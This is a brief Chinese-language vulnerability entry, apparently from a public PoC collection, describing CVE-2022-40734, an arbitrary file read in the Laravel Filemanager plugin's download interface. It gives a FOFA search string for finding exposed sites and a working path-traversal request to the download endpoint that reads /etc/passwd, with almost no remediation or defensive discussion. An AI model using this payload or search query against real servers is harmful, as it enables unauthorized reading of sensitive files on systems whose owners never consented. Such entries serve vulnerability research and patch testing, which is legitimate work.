


# Laravel Filemanager插件 download 任意文件读取漏洞 CVE-2022-40734

## 漏洞描述

Laravel Filemanager插件 download 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感数据

## 漏洞影响

```
Laravel Filemanager插件
```

## FOFA

```
"Laravel Filemanager"
```

## 漏洞复现

主页面



验证POC

```
  /laravel-filemanager/download?working_dir=%2F../../../../../../../../../../../../../../../../../../../etc/passwd
```

